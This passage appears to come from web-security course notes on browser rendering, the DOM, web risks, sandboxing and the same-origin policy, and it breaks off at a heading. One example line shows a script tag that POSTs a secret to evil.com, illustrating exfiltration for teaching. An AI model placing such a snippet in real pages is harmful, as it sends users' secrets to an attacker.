 - It can make HTTP requests.
    - `<script> fetch('https://evil.com/receive', {method:'POST', body: secret})</script>`

Rendering the webpage

- Process of displaying (rendering) a webpage in a web browser:
    1. The browser receives HTML, CSS, and JavaScript from the server.
    
    3. HTML and CSS are parsed into a **DOM (Document Object Model)**.
    
    5. JavaScript is interpreted and executed, possibly modifying the DOM.
    
    7. The painter uses the DOM to draw the webpage.

- **DOM (Document Object Model)**: Cross-platform model for representing and interacting with objects in HTML
    - A tree of nodes.
    
    - Each node has a tag, attributes, and child nodes.

#### Security on the web

What are the risks on the web?

- Web servers should be protected from unauthorized access.
    - An attacker should not be able to hack into **google.com** and provide malicious search results to users.
    
    - The protection is related with server-side security(say, protect the server from buffer overflow attacks).

- A malicious website should not be able to damage our computer.
    - Example: Visiting a malicious website should not infect our computers with malware.
    
    - The way of protection is to use **sandbox**:
        - JavaScript is not allowed to access files on our computer.
        
        - **Privilege separation**, least privilege.
        
        - Browsers are carefully written to avoid exploiting the browser's code (e.g. write the browser in a memory-safe language).

- A malicious website should not be able to tamper with our information or interactions on other websites.
    - Example: If we visit **evil.com**, the attacker who owns **evil.com** should not be able to read our emails or buy things with our Amazon account :)
    
    - Protection: **Same-origin policy**
        - The web browser prevents a website from accessing other _unrelated_ websites.

#### Same-origin policy

What is same-origin policy?

- A rule that prevents one website from tampering with other _unrelated_ websites.

- It's enforced by the web browser.

- It prevents a malicious website from tampering with behavior on other websites.

How does same-origin policy work?
